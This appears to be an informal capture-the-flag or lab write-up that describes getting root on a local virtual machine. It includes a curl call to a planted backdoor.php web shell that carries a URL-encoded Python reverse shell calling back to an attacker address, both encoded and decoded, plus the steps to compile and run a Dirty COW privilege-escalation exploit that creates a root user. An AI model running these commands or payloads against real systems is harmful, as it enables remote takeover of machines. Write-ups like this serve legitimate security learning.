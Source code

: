 # writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**REVERS SHELL**

A reverse shell is a type of network connection where an attacker gains control of a target machine by initiating a connection from the target to the attacker's machine. In a typical shell attack (standard shell), the attacker directly connects to the target machine. However, in a reverse shell, the roles are reversed: the target system initiates the connection to the attacker's system

Do not be scared, everything is done for educational purposes)

<img src="img/photo_5435923932709510478_y.jpg">

here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can simply write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.

<img src="img/photo_5435923932709510484_y.jpg">

If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```

<img src="img/photo_5435923932709510485_y.jpg">

Then we commpiled it via this and run

```
gcc dirty.c -o dirty -pthread -lcrypt
./dirty.c
```
we entered the new password

AAAAANNNNNNDDDDDD that's it we have done it🚨
Check **/etc/passwd** to see if the new user was created.
You can log in with the username 'firefart' and the password 'gago'

You can also use **id** to check that it is root as id is 0
